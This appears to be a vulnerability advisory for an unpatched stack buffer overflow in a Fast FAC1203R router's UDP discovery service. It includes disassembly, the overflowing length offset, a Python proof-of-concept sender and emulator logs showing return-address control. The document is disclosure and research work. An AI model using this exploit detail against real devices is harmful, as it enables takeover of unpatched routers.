







# Overview
Details of the vulnerability found in the Fast router FAC1203R Gigabit Edition.

| Firmware Name | Version | Download Link |
|--------------|---------|---------------|
| FAC1203R千兆版 | 20200116_2.0.4 | https://service.fastcom.com.cn/download-search.html?kw=FAC1203R |

## Product Attribution

- Product: FAC1203R Gigabit Edition
- Name: FAC1203R千兆版
- Version: 20200116_2.0.4
- Vendor: Fast
- Vendor Website: https://www.fastcom.com.cn/
- Product Page: https://www.fastcom.com.cn/product-specs-295.html



The vendor download center lists the firmware as `FAC1203R千兆版 V2.0升级软件20200116_2.0.4`.



# Vulnerability Details

## 1. Vulnerability Trigger Location

A stack-based buffer overflow vulnerability exists in the `copy_msg_element`
function within the firmware's device discovery service. This function calls a
memcpy/memmove-like routine when copying message element data, but fails to
perform an upper-bound check on a user-controllable length field originating
from UDP packets. A specially crafted UDP request to port `5001` can trigger
this vulnerability.

Relevant symbols:

| Function | Address |
| --- | --- |
| `parse_msg_element` | `0x8032F5D8` |
| `copy_msg_element` | `0x8032F810` |
| `parse_advertisement_frame` | `0x8032F854` |
| `ms_idle_handler` | `0x8033107C` |
| `protocol_handler` | `0x803313E0` |



## 2. Vulnerability Analysis

This vulnerability occurs when the device discovery service receives UDP
packets on port `5001`. The service handles LAN device discovery protocol
messages. During parsing, a message element is found by `parse_msg_element`,
then its length field is passed to `copy_msg_element` and used as the copy
length without checking whether it exceeds the stack destination buffer.

The relevant processing chain is:

```
UDP port 5001
  └─ protocol_handler()              @ 0x803313E0
       └─ ms_idle_handler()          @ 0x8033107C
            └─ parse_advertisement_frame()  @ 0x8032F854
                 ├─ parse_msg_element()     @ 0x8032F5D8
                 └─ copy_msg_element()      @ 0x8032F810  ← vulnerability point
                      └─ memcpy/memmove-like copy(dest, src, user_controlled_len)
```

In one vulnerable caller, the program prepares a fixed-size stack buffer and
then reads the TLV length directly from network-controlled bytes before calling
`copy_msg_element`:

```asm
8032fbec: addiu sp,sp,-608
8032fc18: addiu s0,sp,16
8032fc24: jal   0x802c2db8
8032fc28: li    a2,576
...
8032fc54: lbu   a2,2(v0)
8032fc58: lbu   v0,3(v0)
8032fc5c: sll   a2,a2,0x8
8032fc60: jal   0x8032f810
8032fc64: or    a2,a2,v0
```



Inside `copy_msg_element`, the source pointer is changed to `element + 4` and
the copy routine at `0x802C2D28` is called. The function only checks whether
the pointers are null and whether the length is negative. It does not check
whether the length exceeds the destination stack buffer size.

```asm
8032f810: addiu sp,sp,-24
8032f814: move  v0,a0
8032f820: move  a0,a1
8032f82c: bltz  a2,0x8032f844
8032f830: addiu a1,v0,4
8032f834: jal   0x802c2d28
```



During runtime tracing, the original seed was observed reaching
`copy_msg_element` with the message element pointer located inside the UDP
receive buffer:

```text
recvfrom: buf=0x80442648
TestFinish at 0x8032f810, regs:
  a0=0x80442656
  a1=0x83fff7e8
  a2=0x0000c709
```

Therefore, the active TLV element starts at payload offset `0x0e`, and the
controllable length field is located at payload offset `0x10-0x11`.

The proof-of-concept payload sets this length field to `0x0268`. The stack
destination begins at `sp + 16`, while the saved return address is stored later
in the same stack frame. A copy length of `0x0268` reaches saved control data
and overwrites the return address with `0x41414141`.

## 3. Workaround

1. Add an upper-bound check in `copy_msg_element`, ensuring the copy length is
   not greater than the destination buffer size.
2. Validate the TLV length returned by `parse_msg_element` before calling
   `copy_msg_element`.
3. Ensure the declared TLV length does not exceed the remaining packet length.
4. Use a length-bounded safe copy routine and reject malformed discovery
   packets.

## 4. Official Fix

No official patch for this vulnerability has been publicly released by the
vendor at this time. Users are advised to monitor vendor security advisories
and upgrade to the latest firmware version promptly.

# POC

## Python Scripts

```python
import socket

# Target: FAC1203R device discovery service (UDP port 5001)
# Triggers copy_msg_element stack buffer overflow

with open("payload.txt", "rb") as f:
    payload = f.read()

sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
sock.sendto(payload, ("192.168.1.1", 5001))
sock.close()
```

**Payload Structure:**

- Front section: device discovery protocol header.
- Active TLV element: type `0x0005`, located at payload offset `0x0e`.
- User-controlled length field: bytes at offset `0x10-0x11`, set to `0x0268`.
- Rear section: consecutive `0x41` (`A`) data, used to fill the stack buffer
  and overwrite the saved return address.



# Vulnerability Trigger Process

1. Use `binwalk -Me` to extract the `10400` file from the original firmware.
   The firmware OS is VxWorks, and this file is the main binary. The symbol
   table file `symbols.txt` was also used during analysis.
2. Use a self-developed emulation tool specifically for VxWorks devices to
   start the service and perform validation. The test environment is based on
   LibAFL QEMU system-mode emulation for MIPS little-endian firmware, with load
   base address `0x80001000`.
3. The emulation tool hooks the firmware's `recvfrom` call, injecting the
   crafted malicious UDP payload into the receive buffer of the device discovery
   service on port `5001`.

The emulator log confirms that the malicious payload reached the firmware:

```text
Loading test input from "payload_copy_msg_len0268_ra.bin"
recvfrom: sockfd=0xc9, buf=0x80442648, len=0x5a4
recvfrom: wrote 768 bytes of fuzz data to guest memory
```

The program eventually raises a TLB exception. The exception program counter is
controlled by the payload:

```text
Tlb Load Exception
Exception Program Counter: 0x41414141
Access Address : 0x41414140
Task: 0x83fffe00 "tRootTask"
```



The verification video is included as:

```text
verify.mp4
```

# Discoverer

m202472188@hust.edu.cn HUST IOTS&P lab
